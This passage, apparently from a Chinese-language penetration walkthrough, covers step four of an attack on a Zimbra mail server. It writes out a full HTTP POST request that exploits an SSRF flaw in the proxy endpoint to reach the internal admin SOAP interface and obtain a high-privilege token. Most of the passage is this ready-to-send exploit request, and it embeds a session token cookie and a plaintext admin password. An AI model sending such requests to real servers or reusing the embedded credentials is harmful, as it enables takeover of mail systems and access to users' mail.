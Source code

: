 从上图可以看到已经获取到token，但该token不是管理员权限的token，暂时记下来以后要用。

### 第四步：利用SSRF漏洞通过proxy接口，访问admin的soap接口获取高权限Token

> POST请求包如下：

    POST /service/proxy?target=https://127.0.0.1:7071/service/admin/soap HTTP/1.1  
    Host: www.0-sec.org:7071  
    User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/
    Content-Type: application/soap+xml  
    Content-Length: 465  
    Connection: close  
    Cookie: ZM_ADMIN_AUTH_TOKEN=0_5221766f264e4dcb78b4f67be5f839b1ed668da3_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343733303133353638333b747970653d363a7a696d6272613b7469643d393a3735353034333637323b  
    Upgrade-Insecure-Requests: 1  

    <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
       <soap:Header>  
           <context xmlns="urn:zimbra">  
               <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851"/>  
           </context>  
       </soap:Header>  
       <soap:Body>  
         <AuthRequest xmlns="urn:zimbraAdmin">  
            <account by="adminName">zimbra</account>  
            <password>GzXaU76_s5</password>  
         </AuthRequest>  
       </soap:Body>  
    </soap:Envelope>
